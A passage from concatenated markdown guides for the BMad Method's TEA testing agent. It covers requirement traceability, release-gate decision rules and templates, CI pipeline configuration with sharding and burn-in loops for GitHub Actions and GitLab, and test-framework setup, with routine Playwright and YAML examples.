  await expect(page.getByText('New bio text')).toBeVisible();
});

// tests/api/profile.spec.ts
test('should update bio via API', async ({ request }) => {
  const response = await request.patch('/api/profile', {
    data: { bio: 'Updated bio' },
  });
  expect(response.ok()).toBeTruthy();
  const { bio } = await response.json();
  expect(bio).toBe('Updated bio');
});
```
````

**With Playwright Utils:**

```typescript
// tests/e2e/profile-edit.spec.ts
import { test } from '../support/fixtures'; // Composed with authToken

test('should edit bio field', async ({ page, authToken }) => {
  await page.goto('/profile');
  await page.getByRole('button', { name: 'Edit' }).click();
  await page.getByLabel('Bio').fill('New bio text');
  await page.getByRole('button', { name: 'Save' }).click();
  await expect(page.getByText('New bio text')).toBeVisible();
});

// tests/api/profile.spec.ts
import { test as base, expect } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { createAuthFixtures } from '@seontechnologies/playwright-utils/auth-session';
import { mergeTests } from '@playwright/test';

// Merge API request + auth fixtures
const authFixtureTest = base.extend(createAuthFixtures());
const test = mergeTests(apiRequestFixture, authFixtureTest);

test('should update bio via API', async ({ apiRequest, authToken }) => {
  const { status, body } = await apiRequest({
    method: 'PATCH',
    path: '/api/profile',
    body: { bio: 'Updated bio' },
    headers: { Authorization: `Bearer ${authToken}` },
  });

  expect(status).toBe(200);
  expect(body.bio).toBe('Updated bio');
});
```

**Note:** `authToken` requires auth-session fixture setup. See [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md#auth-session).

### 2. Add Avatar Upload Tests

**Tests Needed:**

```typescript
// tests/e2e/profile-edit.spec.ts
test('should upload avatar image', async ({ page }) => {
  await page.goto('/profile');
  await page.getByRole('button', { name: 'Edit' }).click();

  // Upload file
  await page.setInputFiles('[type="file"]', 'fixtures/avatar.png');
  await page.getByRole('button', { name: 'Save' }).click();

  // Verify uploaded image displays
  await expect(page.locator('img[alt="Profile avatar"]')).toBeVisible();
});

// tests/api/profile.spec.ts
import { test, expect } from '@playwright/test';
import fs from 'fs/promises';

test('should accept valid image upload', async ({ request }) => {
  const response = await request.post('/api/profile/avatar', {
    multipart: {
      file: {
        name: 'avatar.png',
        mimeType: 'image/png',
        buffer: await fs.readFile('fixtures/avatar.png'),
      },
    },
  });
  expect(response.ok()).toBeTruthy();
});
```

---

## Next Steps

After reviewing traceability:

1. **Fix critical gaps** - Add tests for P0/P1 requirements
2. **Run `test-review`** - Ensure new tests meet quality standards
3. **Run Phase 2** - Make gate decision after gaps addressed

```

---

## Phase 2: Quality Gate Decision

After Phase 1 coverage analysis is complete, run Phase 2 for the gate decision.

**Prerequisites:**
- Phase 1 traceability matrix complete
- Test execution results available (must have test results)

**Note:** Phase 2 will skip if test execution results aren't provided. The workflow requires actual test run results to make gate decisions.

### 7. Run Phase 2

```

trace

```

Select "Phase 2: Quality Gate Decision"

### 8. Provide Additional Context

TEA will ask for:

**Gate Type:**
- Story gate (small release)
- Epic gate (larger release)
- Release gate (production deployment)
- Hotfix gate (emergency fix)

**Decision Mode:**
- **Deterministic** - Rule-based (coverage %, quality scores)
- **Manual** - Team decision with TEA guidance

**Example:**
```

Gate type: Epic gate
Decision mode: Deterministic

```

### 9. Provide Supporting Evidence

TEA will request:

**Phase 1 Results:**
```

traceability-matrix.md (from Phase 1)

```

**Test Quality (Optional):**
```

test-review.md (from test-review)

```

**NFR Assessment (Optional):**
```

nfr-assessment.md (from nfr-assess)

````

### 10. Review Gate Decision

TEA makes evidence-based gate decision and writes to separate file.

#### Gate Decision (`gate-decision-{gate_type}-{story_id}.md`):

```markdown
---

# Phase 2: Quality Gate Decision

**Gate Type:** Epic Gate
**Decision:** PASS ✅
**Date:** 2026-01-13
**Approvers:** Product Manager, Tech Lead, QA Lead

## Decision Summary

**Verdict:** Ready to release

**Evidence:**
- P0 coverage: 100% (5/5 requirements)
- P1 coverage: 100% (6/6 requirements)
- P2 coverage: 33% (1/3 requirements) - acceptable
- Test quality score: 84/100
- NFR assessment: PASS

## Coverage Analysis

| Priority | Required Coverage | Actual Coverage | Status                |
| -------- | ----------------- | --------------- | --------------------- |
| **P0**   | 100%              | 100%            | ✅ PASS                |
| **P1**   | 90%               | 100%            | ✅ PASS                |
| **P2**   | 50%               | 33%             | ⚠️ Below (acceptable)  |
| **P3**   | 20%               | 0%              | ✅ PASS (low priority) |

**Rationale:**
- All critical path (P0) requirements fully tested
- All high-value (P1) requirements fully tested
- P2 gap (profile export) is low risk and deferred to next release

## Quality Metrics

| Metric             | Threshold | Actual | Status |
| ------------------ | --------- | ------ | ------ |
| P0/P1 Coverage     | P0=100%, P1>=90% | 100% / 100% | ✅      |
| Test Quality Score | >80       | 84     | ✅      |
| NFR Status         | PASS      | PASS   | ✅      |

## Risks and Mitigations

### Accepted Risks

**Risk 1: Profile export not tested (P2)**
- **Impact:** Medium (users can't export profile)
- **Mitigation:** Feature flag disabled by default
- **Plan:** Add tests in v1.3 release (February)
- **Monitoring:** Track feature flag usage

## Approvals

- [x] **Product Manager** - Business requirements met (Approved: 2026-01-13)
- [x] **Tech Lead** - Technical quality acceptable (Approved: 2026-01-13)
- [x] **QA Lead** - Test coverage sufficient (Approved: 2026-01-13)

## Next Steps

### Deployment
1. Merge to main branch
2. Deploy to staging
3. Run smoke tests in staging
4. Deploy to production
5. Monitor for 24 hours

### Monitoring
- Set alerts for profile endpoint (P99 > 200ms)
- Track error rates (target: <0.1%)
- Monitor profile export feature flag usage

### Future Work
- Add profile export tests (v1.3)
- Expand P2 coverage to 50%
````

### Gate Decision Rules

TEA uses deterministic rules when decision_mode = "deterministic":

| P0 Coverage | P1 Coverage | Overall Coverage | Decision                      |
| ----------- | ----------- | ---------------- | ----------------------------- |
| 100%        | ≥90%        | ≥80%             | **PASS** ✅                   |
| 100%        | 80-89%      | ≥80%             | **CONCERNS** ⚠️               |
| <100%       | Any         | Any              | **FAIL** ❌                   |
| Any         | <80%        | Any              | **FAIL** ❌                   |
| Any         | Any         | <80%             | **FAIL** ❌                   |
| Any         | Any         | Any              | **WAIVED** ⏭️ (with approval) |

**Detailed Rules:**

- **PASS:** P0=100%, P1≥90%, Overall≥80%
- **CONCERNS:** P0=100%, P1 80-89%, Overall≥80% (below threshold but not critical)
- **FAIL:** P0<100% OR P1<80% OR Overall<80% (critical gaps)

**PASS** ✅: All criteria met, ready to release

**CONCERNS** ⚠️: Some criteria not met, but:

- Mitigation plan exists
- Risk is acceptable
- Team approves proceeding
- Monitoring in place

**FAIL** ❌: Critical criteria not met:

- P0 requirements not tested
- Critical security vulnerabilities
- System is broken
- Cannot deploy

**WAIVED** ⏭️: Business approves proceeding despite concerns:

- Documented business justification
- Accepted risks quantified
- Approver signatures
- Future plans documented

### Example CONCERNS Decision

```markdown
## Decision Summary

**Verdict:** CONCERNS ⚠️ - Proceed with monitoring

**Evidence:**

- P0 coverage: 100%
- P1 coverage: 85% (below 90% target)
- Test quality: 78/100 (below 80 target)

**Gaps:**

- 1 P1 requirement not tested (avatar upload)
- Test quality score slightly below threshold

**Mitigation:**

- Avatar upload not critical for v1.2 launch
- Test quality issues are minor (no flakiness)
- Monitoring alerts configured

**Approvals:**

- Product Manager: APPROVED (business priority to launch)
- Tech Lead: APPROVED (technical risk acceptable)
```

### Example FAIL Decision

```markdown
## Decision Summary

**Verdict:** FAIL ❌ - Cannot release

**Evidence:**

- P0 coverage: 60% (below required 100%)
- Critical security vulnerability (CVE-2024-12345)
- Test quality: 55/100

**Blockers:**

1. **Login flow not tested** (P0 requirement)
   - Critical path completely untested
   - Must add E2E and API tests

2. **SQL injection vulnerability**
   - Critical security issue
   - Must fix before deployment

**Actions Required:**

1. Add login tests (QA team, 2 days)
2. Fix SQL injection (backend team, 1 day)
3. Re-run security scan (DevOps, 1 hour)
4. Re-run trace after fixes

**Cannot proceed until all blockers resolved.**
```

## What You Get

### Phase 1: Traceability Matrix

- Requirement-to-test mapping
- Coverage classification (FULL/PARTIAL/NONE)
- Gap identification with priorities
- Actionable recommendations

### Phase 2: Gate Decision

- Go/no-go verdict (PASS/CONCERNS/FAIL/WAIVED)
- Evidence summary
- Approval signatures
- Next steps and monitoring plan

## Usage Patterns

### Greenfield Projects

**Phase 3:**

```
After architecture complete:
1. Run test-design (system-level)
2. Run trace Phase 1 (baseline)
3. Use for implementation-readiness gate
```

**Phase 4:**

```
After each epic/story:
1. Run trace Phase 1 (refresh coverage)
2. Identify gaps
3. Add missing tests
```

**Release Gate:**

```
Before deployment:
1. Run trace Phase 1 (final coverage check)
2. Run trace Phase 2 (make gate decision)
3. Get approvals
4. Deploy (if PASS or WAIVED)
```

### Brownfield Projects

**Phase 2:**

```
Before planning new work:
1. Run trace Phase 1 (establish baseline)
2. Understand existing coverage
3. Plan testing strategy
```

**Phase 4:**

```
After each epic/story:
1. Run trace Phase 1 (refresh)
2. Compare to baseline
3. Track coverage improvement
```

**Release Gate:**

```
Before deployment:
1. Run trace Phase 1 (final check)
2. Run trace Phase 2 (gate decision)
3. Compare to baseline
4. Deploy if coverage maintained or improved
```

## Tips

### Run Phase 1 Frequently

Don't wait until release gate:

```
After Story 1: trace Phase 1 (identify gaps early)
After Story 2: trace Phase 1 (refresh)
After Story 3: trace Phase 1 (refresh)
Before Release: trace Phase 1 + Phase 2 (final gate)
```

**Benefit:** Catch gaps early when they're cheap to fix.

### Use Coverage Trends

Track improvement over time:

```markdown
## Coverage Trend

| Date       | Epic     | P0/P1 Coverage | Quality Score | Status         |
| ---------- | -------- | -------------- | ------------- | -------------- |
| 2026-01-01 | Baseline | 45%            | -             | Starting point |
| 2026-01-08 | Epic 1   | 78%            | 72            | Improving      |
| 2026-01-15 | Epic 2   | 92%            | 84            | Near target    |
| 2026-01-20 | Epic 3   | 100%           | 88            | Ready!         |
```

### Set Coverage Targets by Priority

Don't aim for 100% across all priorities:

**Recommended Targets:**

- **P0:** 100% (critical path must be tested)
- **P1:** 90% (high-value scenarios)
- **P2:** 50% (nice-to-have features)
- **P3:** 20% (low-value edge cases)

### Use Classification Strategically

**FULL** ✅: Requirement completely tested

- E2E test covers full user workflow
- API test validates backend behavior
- All acceptance criteria covered

**PARTIAL** ⚠️: Some aspects tested

- E2E test exists but missing scenarios
- API test exists but incomplete
- Some acceptance criteria not covered

**NONE** ❌: No tests exist

- Requirement identified but not tested
- May be intentional (low priority) or oversight

**Classification helps prioritize:**

- Fix NONE coverage for P0/P1 requirements first
- Enhance PARTIAL coverage for P0 requirements
- Accept PARTIAL or NONE for P2/P3 if time-constrained

### Automate Gate Decisions

Use traceability in CI:

```yaml
# .github/workflows/gate-check.yml
- name: Check coverage
  run: |
    # Run trace Phase 1
    # Parse coverage percentages
    if [ $P0_COVERAGE -lt 100 ]; then
      echo "P0 coverage below required 100%"
      exit 1
    fi
    if [ $P1_COVERAGE -lt 80 ]; then
      echo "P1 coverage below minimum 80%"
      exit 1
    fi
    if [ $OVERALL_COVERAGE -lt 80 ]; then
      echo "Overall coverage below minimum 80%"
      exit 1
    fi
```

### Document Waivers Clearly

If proceeding with WAIVED:

**Required:**

```markdown
## Waiver Documentation

**Waived By:** VP Engineering, Product Lead
**Date:** 2026-01-15
**Gate Type:** Release Gate v1.2

**Justification:**
Business critical to launch by Q1 for investor demo.
Performance concerns acceptable for initial user base.

**Conditions:**

- Set monitoring alerts for P99 > 300ms
- Plan optimization for v1.3 (due February 28)
- Monitor user feedback closely

**Accepted Risks:**

- 1% of users may experience 350ms latency
- Avatar upload feature incomplete
- Profile export deferred to next release

**Quantified Impact:**

- Affects <100 users at current scale
- Workaround exists (manual export)
- Monitoring will catch issues early

**Approvals:**

- VP Engineering: [Signature] Date: 2026-01-15
- Product Lead: [Signature] Date: 2026-01-15
- QA Lead: [Signature] Date: 2026-01-15
```

## Common Issues

### Too Many Gaps to Fix

**Problem:** Phase 1 shows 50 uncovered requirements.

**Solution:** Prioritize ruthlessly:

1. Fix all P0 gaps (critical path)
2. Fix high-risk P1 gaps
3. Accept low-risk P1 gaps with mitigation
4. Defer all P2/P3 gaps

**Don't try to fix everything** - focus on what matters for release.

### Can't Find Test Coverage

**Problem:** Tests exist but TEA can't map them to requirements.

**Cause:** Tests don't reference requirements.

**Solution:** Add traceability comments:

```typescript
test('should display profile', async ({ page }) => {
  // Covers: Requirement 1 - User can view profile
  // Acceptance criteria: Navigate to /profile, see name/email
  await page.goto('/profile');
  await expect(page.getByText('Test User')).toBeVisible();
});
```

Or use test IDs:

```typescript
test('[REQ-1] should display profile', async ({ page }) => {
  // Test code...
});
```

### Unclear What "FULL" vs "PARTIAL" Means

**FULL** ✅: All acceptance criteria tested

```
Requirement: User can edit profile
Acceptance criteria:
  - Can modify name ✅ Tested
  - Can modify email ✅ Tested
  - Can upload avatar ✅ Tested
  - Changes persist ✅ Tested
Result: FULL coverage
```

**PARTIAL** ⚠️: Some criteria tested, some not

```
Requirement: User can edit profile
Acceptance criteria:
  - Can modify name ✅ Tested
  - Can modify email ✅ Tested
  - Can upload avatar ❌ Not tested
  - Changes persist ✅ Tested
Result: PARTIAL coverage (3/4 criteria)
```

### Gate Decision Unclear

**Problem:** Not sure if PASS or CONCERNS is appropriate.

**Guideline:**

**Use PASS** ✅ if:

- All P0 requirements 100% covered
- P1 requirements >90% covered
- No critical issues
- NFRs met

**Use CONCERNS** ⚠️ if:

- P1 coverage 80-89% (below PASS target, above minimum)
- Minor quality issues (score 70-79)
- NFRs have mitigation plans
- Team agrees risk is acceptable

**Use FAIL** ❌ if:

- P0 coverage <100% (critical path gaps)
- P1 coverage <80%
- Critical security/performance issues
- No mitigation possible

**When in doubt, use CONCERNS** and document the risk.

## Related Guides

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Provides requirements for traceability
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Quality scores feed gate
- [How to Run NFR Assessment](/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md) - NFR status feeds gate

## Understanding the Concepts

- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Why P0 vs P3 matters
- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Gate decisions in context

## Reference

- [Command: \*trace](../bmad_repo/commands.md#trace) - Full command reference
- [TEA Configuration](configuration.md) - Config options

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/setup-ci.md`
```markdown
---
title: 'How to Set Up CI Pipeline with TEA'
description: Configure automated test execution with selective testing and burn-in loops using TEA
---

# How to Set Up CI Pipeline with TEA

Use TEA's `ci` workflow to scaffold production-ready CI/CD configuration for automated test execution with selective testing, parallel sharding, and flakiness detection.

## When to Use This

- Need to automate test execution in CI/CD
- Want selective testing (only run affected tests)
- Need parallel execution for faster feedback
- Want burn-in loops for flakiness detection
- Setting up new CI/CD pipeline
- Optimizing existing CI/CD workflow

## Prerequisites

- BMad Method installed
- TEA agent available
- Test framework configured (run `framework` first)
- Tests written (have something to run in CI)
- CI/CD platform access (GitHub Actions, GitLab CI, etc.)

## Steps

### 1. Load TEA Agent

Start a fresh chat and load TEA:

```
tea
```

### 2. Run the CI Workflow

```
ci
```

### 3. Select CI/CD Platform

TEA will ask which platform you're using.

**Supported Platforms:**

- **GitHub Actions** (most common)
- **GitLab CI**
- **Jenkins** — Generates `Jenkinsfile` with parallel stages, artifact archiving, and post-failure handling
- **Azure DevOps** — Generates `azure-pipelines.yml` with matrix strategy for sharding and Azure-specific caching
- **Harness** — Generates `.harness/pipeline.yaml` with Kubernetes-based execution and parallel steps
- **Circle CI**
- **Other** (TEA provides generic template)

**Example:**

```
GitHub Actions
```

### 4. Configure Test Strategy

TEA will ask about your test execution strategy.

#### Repository Structure

**Question:** "What's your repository structure?"

**Options:**

- **Single app** - One application in root
- **Monorepo** - Multiple apps/packages
- **Monorepo with affected detection** - Only test changed packages

**Example:**

```
Monorepo with multiple apps
Need selective testing for changed packages only
```

#### Parallel Execution

**Question:** "Want to shard tests for parallel execution?"

**Options:**

- **No sharding** - Run tests sequentially
- **Shard by workers** - Split across N workers
- **Shard by file** - Each file runs in parallel

**Example:**

```
Yes, shard across 4 workers for faster execution
```

**Why Shard?**

- **4 workers:** 20-minute suite → 5 minutes
- **Better resource usage:** Utilize CI runners efficiently
- **Faster feedback:** Developers wait less

#### Burn-In Loops

**Question:** "Want burn-in loops for flakiness detection?"

**Options:**

- **No burn-in** - Run tests once
- **PR burn-in** - Run tests multiple times on PRs
- **Nightly burn-in** - Dedicated flakiness detection job

**Example:**

```
Yes, run tests 5 times on PRs to catch flaky tests early
```

**Why Burn-In?**

- Catches flaky tests before they merge
- Prevents intermittent CI failures
- Builds confidence in test suite

### 5. Review Generated CI Configuration

TEA generates platform-specific workflow files.

#### GitHub Actions (`.github/workflows/test.yml`):

```yaml
name: Test Suite

on:
  pull_request:
  push:
    branches: [main, develop]
  schedule:
    - cron: '0 2 * * *' # Nightly at 2 AM

jobs:
  # Main test job with sharding
  test:
    name: Test (Shard ${{ matrix.shard }})
    runs-on: ubuntu-latest
    timeout-minutes: 15

    strategy:
      fail-fast: false
      matrix:
        shard: [1, 2, 3, 4]

    steps:
      - name: Checkout code
        uses: actions/checkout@v4

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'
          cache: 'npm'

      - name: Install dependencies
        run: npm ci

      - name: Install Playwright browsers
        run: npx playwright install --with-deps

      - name: Run tests
        run: npx playwright test --shard=${{ matrix.shard }}/4

      - name: Upload test results
        if: always()
        uses: actions/upload-artifact@v4
        with:
          name: test-results-${{ matrix.shard }}
          path: test-results/
          retention-days: 7

      - name: Upload test report
        if: always()
        uses: actions/upload-artifact@v4
        with:
          name: playwright-report-${{ matrix.shard }}
          path: playwright-report/
          retention-days: 7

  # Burn-in job for flakiness detection (PRs only)
  burn-in:
    name: Burn-In (Flakiness Detection)
    runs-on: ubuntu-latest
    if: github.event_name == 'pull_request'
    timeout-minutes: 30

    steps:
      - name: Checkout code
        uses: actions/checkout@v4

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'
          cache: 'npm'

      - name: Install dependencies
        run: npm ci

      - name: Install Playwright browsers
        run: npx playwright install --with-deps

      - name: Run burn-in loop
        run: |
          for i in {1..5}; do
            echo "=== Burn-in iteration $i/5 ==="
            npx playwright test --grep-invert "@skip" || exit 1
          done

      - name: Upload burn-in results
        if: failure()
        uses: actions/upload-artifact@v4
        with:
          name: burn-in-failures
          path: test-results/

  # Selective testing (changed files only)
  selective:
    name: Selective Tests
    runs-on: ubuntu-latest
    if: github.event_name == 'pull_request'

    steps:
      - name: Checkout code
        uses: actions/checkout@v4
        with:
          fetch-depth: 0 # Full history for git diff

      - name: Setup Node.js
        uses: actions/setup-node@v4
        with:
          node-version-file: '.nvmrc'
          cache: 'npm'

      - name: Install dependencies
        run: npm ci

      - name: Install Playwright browsers
        run: npx playwright install --with-deps

      - name: Run selective tests
        run: npm run test:changed
```

#### GitLab CI (`.gitlab-ci.yml`):

```yaml
variables:
  NODE_VERSION: '18'

stages:
  - test
  - burn-in

# Test job with parallel execution
test:
  stage: test
  image: node:$NODE_VERSION
  parallel: 4
  script:
    - npm ci
    - npx playwright install --with-deps
    - npx playwright test --shard=$CI_NODE_INDEX/$CI_NODE_TOTAL
  artifacts:
    when: always
    paths:
      - test-results/
      - playwright-report/
    expire_in: 7 days
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
    - if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH

# Burn-in job for flakiness detection
burn-in:
  stage: burn-in
  image: node:$NODE_VERSION
  script:
    - npm ci
    - npx playwright install --with-deps
    - |
      for i in {1..5}; do
        echo "=== Burn-in iteration $i/5 ==="
        npx playwright test || exit 1
      done
  artifacts:
    when: on_failure
    paths:
      - test-results/
  rules:
    - if: $CI_PIPELINE_SOURCE == "merge_request_event"
```

#### Burn-In Testing

**Option 1: Classic Burn-In (Playwright Built-In)**

```json
{
  "scripts": {
    "test": "playwright test",
    "test:burn-in": "playwright test --repeat-each=5 --retries=0"
  }
}
```

**How it works:**

- Runs every test 5 times
- Fails if any iteration fails
- Detects flakiness before merge

**Use when:** Small test suite, want to run everything multiple times

---

**Option 2: Smart Burn-In (Playwright Utils)**

If `tea_use_playwright_utils: true`:

**scripts/burn-in-changed.ts:**

```typescript
import { runBurnIn } from '@seontechnologies/playwright-utils/burn-in';

await runBurnIn({
  configPath: 'playwright.burn-in.config.ts',
  baseBranch: 'main',
});
```

**playwright.burn-in.config.ts:**

```typescript
import type { BurnInConfig } from '@seontechnologies/playwright-utils/burn-in';

const config: BurnInConfig = {
  skipBurnInPatterns: ['**/config/**', '**/*.md', '**/*types*'],
  burnInTestPercentage: 0.3,
  burnIn: { repeatEach: 5, retries: 0 },
};

export default config;
```

**package.json:**

```json
{
  "scripts": {
    "test:burn-in": "tsx scripts/burn-in-changed.ts"
  }
}
```

**How it works:**

- Git diff analysis (only affected tests)
- Smart filtering (skip configs, docs, types)
- Volume control (run 30% of affected tests)
- Each test runs 5 times

**Use when:** Large test suite, want intelligent selection

---

**Comparison:**

| Feature        | Classic Burn-In                    | Smart Burn-In (PW-Utils)            |
| -------------- | ---------------------------------- | ----------------------------------- |
| Changed 1 file | Runs all 500 tests × 5 = 2500 runs | Runs 3 affected tests × 5 = 15 runs |
| Config change  | Runs all tests                     | Skips (no tests affected)           |
| Type change    | Runs all tests                     | Skips (no runtime impact)           |
| Setup          | Zero config                        | Requires config file                |

**Recommendation:** Start with classic (simple), upgrade to smart (faster) when suite grows.

### 6. Configure Secrets

TEA provides a secrets checklist.

**Required Secrets** (add to CI/CD platform):

```markdown
## GitHub Actions Secrets

Repository Settings → Secrets and variables → Actions

### Required

- None (tests run without external auth)

### Optional

- `TEST_USER_EMAIL` - Test user credentials
- `TEST_USER_PASSWORD` - Test user password
- `API_BASE_URL` - API endpoint for tests
- `DATABASE_URL` - Test database (if needed)
```

**How to Add Secrets:**

**GitHub Actions:**

1. Go to repo Settings → Secrets → Actions
2. Click "New repository secret"
3. Add name and value
4. Use in workflow: `${{ secrets.TEST_USER_EMAIL }}`

**GitLab CI:**

1. Go to Project Settings → CI/CD → Variables
2. Add variable name and value
3. Use in workflow: `$TEST_USER_EMAIL`

### 7. Test the CI Pipeline

#### Push and Verify

**Commit the workflow file:**

```bash
git add .github/workflows/test.yml
git commit -m "ci: add automated test pipeline"
git push
```

**Watch the CI run:**

- GitHub Actions: Go to Actions tab
- GitLab CI: Go to CI/CD → Pipelines
- Circle CI: Go to Pipelines

**Expected Result:**

```
✓ test (shard 1/4) - 3m 24s
✓ test (shard 2/4) - 3m 18s
✓ test (shard 3/4) - 3m 31s
✓ test (shard 4/4) - 3m 15s
✓ burn-in - 15m 42s
```

#### Test on Pull Request

**Create test PR:**

```bash
git checkout -b test-ci-setup
echo "# Test" > test.md
git add test.md
git commit -m "test: verify CI setup"
git push -u origin test-ci-setup
```

**Open PR and verify:**

- Tests run automatically
- Burn-in runs (if configured for PRs)
- Selective tests run (if applicable)
- All checks pass ✓

## What You Get

### Automated Test Execution

- **On every PR** - Catch issues before merge
- **On every push to main** - Protect production
- **Nightly** - Comprehensive regression testing

### Parallel Execution

- **4x faster feedback** - Shard across multiple workers
- **Efficient resource usage** - Maximize CI runner utilization

### Selective Testing

- **Run only affected tests** - Git diff-based selection
- **Faster PR feedback** - Don't run entire suite every time

### Flakiness Detection

- **Burn-in loops** - Run tests multiple times
- **Early detection** - Catch flaky tests in PRs
- **Confidence building** - Know tests are reliable

### Artifact Collection

- **Test results** - Saved for 7 days
- **Screenshots** - On test failures
- **Videos** - Full test recordings
- **Traces** - Playwright trace files for debugging

## Tips

### Start Simple, Add Complexity

**Week 1:** Basic pipeline

```yaml
- Run tests on PR
- Single worker (no sharding)
```

**Week 2:** Add parallelization

```yaml
- Shard across 4 workers
- Faster feedback
```

**Week 3:** Add selective testing

```yaml
- Git diff-based selection
- Skip unaffected tests
```

**Week 4:** Add burn-in

```yaml
- Detect flaky tests
- Run on PR and nightly
```

### Optimize for Feedback Speed

**Goal:** PR feedback in < 5 minutes

**Strategies:**

- Shard tests across workers (4 workers = 4x faster)
- Use selective testing (run 20% of tests, not 100%)
- Cache dependencies (`actions/cache`, `cache: 'npm'`)
- Run smoke tests first, full suite after

**Example fast workflow:**

```yaml
jobs:
  smoke:
    # Run critical path tests (2 min)
    run: npm run test:smoke

  full:
    needs: smoke
    # Run full suite only if smoke passes (10 min)
    run: npm test
```

### Use Test Tags

Tag tests for selective execution:

```typescript
// Critical path tests (always run)
test('@critical should login', async ({ page }) => {});

// Smoke tests (run first)
test('@smoke should load homepage', async ({ page }) => {});

// Slow tests (run nightly only)
test('@slow should process large file', async ({ page }) => {});

// Skip in CI
test('@local-only should use local service', async ({ page }) => {});
```

**In CI:**

```bash
# PR: Run critical and smoke only
npx playwright test --grep "@critical|@smoke"

# Nightly: Run everything except local-only
npx playwright test --grep-invert "@local-only"
```

### Monitor CI Performance

Track metrics:

```markdown
## CI Metrics

| Metric           | Target   | Current | Status |
| ---------------- | -------- | ------- | ------ |
| PR feedback time | < 5 min  | 3m 24s  | ✅     |
| Full suite time  | < 15 min | 12m 18s | ✅     |
| Flakiness rate   | < 1%     | 0.3%    | ✅     |
| CI cost/month    | < $100   | $75     | ✅     |
```

### Handle Flaky Tests

When burn-in detects flakiness:

1. **Quarantine flaky test:**

```typescript
test.skip('flaky test - investigating', async ({ page }) => {
  // TODO: Fix flakiness
});
```

2. **Investigate with trace viewer:**

```bash
npx playwright show-trace test-results/trace.zip
```

3. **Fix root cause:**

- Add network-first patterns
- Remove hard waits
- Fix race conditions

4. **Verify fix:**

```bash
npm run test:burn-in -- tests/flaky.spec.ts --repeat 20
```

### Secure Secrets

**Don't commit secrets to code:**

```yaml
# ❌ Bad
- run: API_KEY=sk-1234... npm test

# ✅ Good
- run: npm test
  env:
    API_KEY: ${{ secrets.API_KEY }}
```

**Use environment-specific secrets:**

- `STAGING_API_URL`
- `PROD_API_URL`
- `TEST_API_URL`

### Cache Aggressively

Speed up CI with caching:

```yaml
# Cache node_modules
- uses: actions/setup-node@v4
  with:
    cache: 'npm'

# Cache Playwright browsers
- name: Cache Playwright browsers
  uses: actions/cache@v4
  with:
    path: ~/.cache/ms-playwright
    key: playwright-${{ hashFiles('package-lock.json') }}
```

## Common Issues

### Tests Pass Locally, Fail in CI

**Symptoms:**

- Green locally, red in CI
- "Works on my machine"

**Common Causes:**

- Different Node version
- Different browser version
- Missing environment variables
- Timezone differences
- Race conditions (CI slower)

**Solutions:**

```yaml
# Pin Node version
- uses: actions/setup-node@v4
  with:
    node-version-file: '.nvmrc'

# Pin browser versions
- run: npx playwright install --with-deps chromium@1.40.0

  # Set timezone
  env:
    TZ: 'America/New_York'
```

### CI Takes Too Long

**Problem:** CI takes 30+ minutes, developers wait too long.

**Solutions:**

1. **Shard tests:** 4 workers = 4x faster
2. **Selective testing:** Only run affected tests on PR
3. **Smoke tests first:** Run critical path (2 min), full suite after
4. **Cache dependencies:** `npm ci` with cache
5. **Optimize tests:** Remove slow tests, hard waits

### Burn-In Always Fails

**Problem:** Burn-in job fails every time.

**Cause:** Test suite is flaky.

**Solution:**

1. Identify flaky tests (check which iteration fails)
2. Fix flaky tests using `test-review`
3. Re-run burn-in on specific files:

```bash
npm run test:burn-in tests/flaky.spec.ts
```

### Out of CI Minutes

**Problem:** Using too many CI minutes, hitting plan limit.

**Solutions:**

1. Run full suite only on main branch
2. Use selective testing on PRs
3. Run expensive tests nightly only
4. Self-host runners (for GitHub Actions)

## Related Guides

- [How to Set Up Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md) - Run first
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Audit CI tests
- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) - Burn-in utility

## Understanding the Concepts

- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Why determinism matters
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Avoid CI flakiness

## Reference

- [Command: \*ci](../bmad_repo/commands.md#ci) - Full command reference
- [TEA Configuration](configuration.md) - CI-related config options

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md`
```markdown
---
title: 'How to Set Up a Test Framework with TEA'
description: How to set up a production-ready test framework using TEA
---

Use TEA's `framework` workflow to scaffold a production-ready test framework for your project.

## When to Use This

- No existing test framework in your project
- Current test setup isn't production-ready
- Starting a new project that needs testing infrastructure
- Phase 3 (Solutioning) after architecture is complete

:::note[Prerequisites]

- BMad Method installed
- Architecture completed (or at least tech stack decided)
- TEA agent available
  :::

## Steps

### 1. Load the TEA Agent

Start a fresh chat and load the TEA (Test Engineering Architect) agent.

### 2. Run the Framework Workflow

```
framework
```

### 3. Answer TEA's Questions

TEA will ask about:

- Your tech stack (React, Node, etc.)
- Preferred test framework:
  - **Frontend/Fullstack**: Playwright, Cypress
  - **Backend (Node.js)**: Jest, Vitest, or Playwright (API testing via playwright-utils)
  - **Backend (Python)**: pytest, or Playwright for Python
  - **Backend (Java/Kotlin)**: JUnit, or Playwright for Java
  - **Backend (Go)**: Go test
  - **Backend (C#/.NET)**: dotnet test / xUnit, or Playwright for .NET
  - **Backend (Ruby)**: RSpec
- Testing scope (E2E, integration, unit, API)
- CI/CD platform (GitHub Actions, GitLab CI, Jenkins, Azure DevOps, Harness, etc.)

